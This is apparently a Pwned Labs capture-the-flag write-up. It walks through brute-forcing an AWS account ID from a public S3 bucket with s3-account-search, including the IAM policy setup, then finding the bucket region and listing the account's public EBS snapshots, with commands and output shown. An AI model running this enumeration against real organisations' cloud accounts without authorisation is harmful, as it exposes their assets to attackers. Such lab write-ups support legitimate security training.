 ```yaml
---
title: AWS S3 Enumeration Basics
description: AWS S3 Enumeration Basics
image:
  path: aws.jpg
categories:
- Pwned Labs
- AWS
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/aws/
tags:
- pwnedlabs
- aws
- cloud
---
```

# Scenario
The ability to expose and leverage even the smallest oversights is a coveted skill. A global Logistics Company has reached out to our cybersecurity company for assistance and have provided the IP address of their website. Your objective? Start the engagement and use this IP address to identify their AWS account ID via a public S3 bucket so we can commence the process of enumeration.


# Walkthrough


We are given IP, the port scan shows HTTP port is open
```
└─$ nmap -Pn 54.204.171.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-12 00:45 +06
Nmap scan report for ec2-54-204-171-32.compute-1.amazonaws.com (54.204.171.32)
Host is up (0.24s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 20.69 seconds
```

Website has no
![](identify-the-aws-account-id-from-a-public-s3-bucket-1.png)

If we check source code, we see that images are hosted in S3 bucket

![](identify-the-aws-account-id-from-a-public-s3-bucket-2.png)

We can inspect the bucket via browser, but nothing interesting

![](identify-the-aws-account-id-from-a-public-s3-bucket-3.png)

There is a [research](https://cloudar.be/awsblog/finding-the-account-id-of-any-public-s3-bucket/) which shows that it is possible to brute force AWS Account ID based on S3 bucket. The [code](https://github.com/WeAreCloudar/s3-account-search/blob/main/s3_account_search/cli.py) requires user, role and trust policy. But we are provided with one already to perform the attack. 

Let's assume we are not given one:
- Create an IAM user in your own AWS account. The IAM user assuming the role should have the following policy attached (inline policy can be used too).
```
{
    "Version": "2012-10-17",
    "Statement": {
        "Effect": "Allow",
        "Action": "sts:AssumeRole",
        "Resource": "arn:aws:iam::<your aws account id>:role/<your role name>"
    }
}
```

- Then create the role. Create and attach the policy below, that allows performing the attack on any S3 bucket that you are authorized to assess
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllBucketsGetObject",
      "Effect": "Allow",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::*/*"
    },
    {
      "Sid": "AllBucketsList",
      "Effect": "Allow",
      "Action": "s3:ListBucket",
      "Resource": "arn:aws:s3:::*"
    }
  ]
}
```

The role created should also have the following trust policy, allowing user to assume the role
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your aws account id>:user/<your iam user name>"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

Now, let's authenticate
```
└─$ aws configure            
AWS Access Key ID [****************FGCD]: AKIAWHEOTHRFW4CEP7HK
AWS Secret Access Key [****************Y6jP]: <REDACTED>
Default region name [us-east-1]: 
Default output format [None]: 
```
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAWHEOTHRF62U7I6AWZ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/s3user"
}
```

Now use `s3-account-search` to brute-force AWS Account ID. It requires Amazon Resource Name (ARN) of the role under our control (for example, from our own AWS account), and a target S3 bucket in the AWS account whose ID will be brute-forced

```
└─$ s3-account-search arn:aws:iam::427648302155:role/LeakyBucket mega-big-tech
Starting search (this can take a while)
found: 1
found: 10
found: 107
found: 1075
found: 10751
found: 107513
found: 1075135
found: 10751350
found: 107513503
found: 1075135037
found: 10751350379
found: 107513503799
```

We found AWS account ID `107513503799`. It can be used to find public resources that could have been accidently exposed, such as public EBS and RDS snapshots. 

> To find the S3 bucket region there's a trick with cURL
{: .prompt-info }
```
└─$ curl -I https://mega-big-tech.s3.amazonaws.com
HTTP/1.1 200 OK
x-amz-id-2: EsiGZTflnOpbbFa6alHMrwXFVKA5UROedIkvd5Bd+0KQFnUmyyouhWCbtjGCj2fhNu1i8vRtqyU=
x-amz-request-id: BFKY0EZW2GSER9YY
Date: Mon, 11 Aug 2025 19:20:12 GMT
x-amz-bucket-region: us-east-1
x-amz-access-point-alias: false
Content-Type: application/xml
Transfer-Encoding: chunked
Server: AmazonS3

```

We can list the public EBS snapshots that were created in the AWS account `107513503799 `
```
└─$ aws ec2 describe-snapshots --owner-ids 107513503799 --restorable-by-user-ids all --query "Snapshots[*].{ID:SnapshotId,StartTime:StartTime,VolumeSize:VolumeSize,Description:Description}" --output table
-----------------------------------------------------------------------------------------------------------------------------------------------
|                                                              DescribeSnapshots                                                              |
+------------------------------------------------------------------------+-------------------------+---------------------------+--------------+
|                               Description                              |           ID            |         StartTime         | VolumeSize   |
+------------------------------------------------------------------------+-------------------------+---------------------------+--------------+
|  Created by CreateImage(i-089b146125db92ee4) for ami-0676627ee43624fb2 |  snap-08580043db7a923f6 |  2023-06-25T23:08:45.155Z |  8           |
+------------------------------------------------------------------------+-------------------------+---------------------------+--------------+
```